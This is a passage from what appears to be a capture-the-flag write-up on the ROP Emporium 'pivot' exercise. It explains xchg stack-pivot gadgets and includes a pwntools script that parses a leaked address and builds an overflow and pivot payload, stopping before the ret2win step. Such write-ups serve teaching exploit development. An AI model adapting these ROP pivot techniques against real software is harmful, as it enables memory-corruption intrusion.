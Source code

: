![pivot gadgets](/images/pivot/x64-pivot-gadgets.png)

The
[xchg instruction](https://www.felixcloutier.com/x86/xchg){:target="_blank"}{:rel="noopener noreferrer"}
will exchange/swap the values of the provided registers.
With these gadgets, we have a way to control 
the stack pointer `rsp`. 

The program provides an address to switch to, but it
changes every time it's run. This means
we need to create a payload based on the output. `pwntools`
is able to read the output of a program so we can
change the stack pointer `rsp` with this python code

```python
#!/bin/python3
from pwn import *

pop_rax = 0x004009bb
xchg_rsp_rax = 0x004009bd

# set rsp to addr
def set_rsp(addr):
    payload = p64(pop_rax) + p64(addr)
    payload += p64(xchg_rsp_rax)
    return payload

# create pivot payload
io = process('./pivot')
io.recvuntil(b'pivot: ')
addr_output = io.recvline()
# remove \n and convert to number
malloc_addr = addr_output[0:-1]
malloc_addr = int(malloc_addr, 16)
pivot_payload = b'A' * 40
pivot_payload += set_rsp(malloc_addr)
```

## ret2win
After our stack pivots, it will continue to run our
ROP chain in this new location. Our next step is to
call the `ret2win` function to read the flag. The
only problem is this function isn't imported!

### Library Foothold
> Analyze the library `libpivot.so` and compare it to
> the `pivot` binary
{: .prompt-tip }
